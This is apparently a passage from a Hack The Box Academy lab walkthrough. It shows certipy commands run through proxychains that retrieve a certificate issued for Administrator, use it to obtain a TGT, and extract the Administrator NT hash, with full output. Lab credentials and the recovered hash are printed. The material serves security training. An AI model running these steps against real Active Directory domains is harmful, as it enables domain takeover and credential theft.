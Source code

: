 Code: shell

```shell
proxychains -q certipy req -u cken -p Superman001 -dc-ip 172.16.19.3 -target-ip 172.16.19.5 -ca lab-WS01-CA -retrieve 11
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-6eyilg2fh9]─[~]
└──╼ [★]$ proxychains -q certipy req -u cken -p Superman001 -dc-ip 172.16.19.3 -target-ip 172.16.19.5 -ca lab-WS01-CA -retrieve 11

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 11
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Loaded private key from '11.key'
[*] Saved certificate and private key to 'administrator.pfx
```

Utilizing the certificate, students need to tunnel via `proxychains` the `auth` command of `certipy` to request a TGT for `Administrator` and `Un-PAC-the-hash` within it; students will attain the NT hash `6e599ada28db049c044cc0bb4afeb73d`:

Code: shell

```shell
proxychains -q certipy auth -pfx administrator.pfx -domain lab.local -dc-ip 172.16.19.3
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-6eyilg2fh9]─[~]
└──╼ [★]$ proxychains -q certipy auth -pfx administrator.pfx -domain lab.local -dc-ip 172.16.19.3

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@lab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@lab.local': aad3b435b51404eeaad3b435b51404ee:6e599ada28db049c044cc0bb4afeb73d
```

Subsequently, students need to add a vHost entry for the DC living in the target's internal network `172.16.19.3` so that `Kerberos` authentication functions correctly:

Code: shell

```shell
sudo sh -c 'echo "172.16.19.3 lab-dc.lab.local" >> /etc/hosts'
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-6eyilg2fh9]─[~]
└──╼ [★]$ sudo sh -c 'echo "172.16.19.3 lab-dc.lab.local" >> /etc/hosts'
```
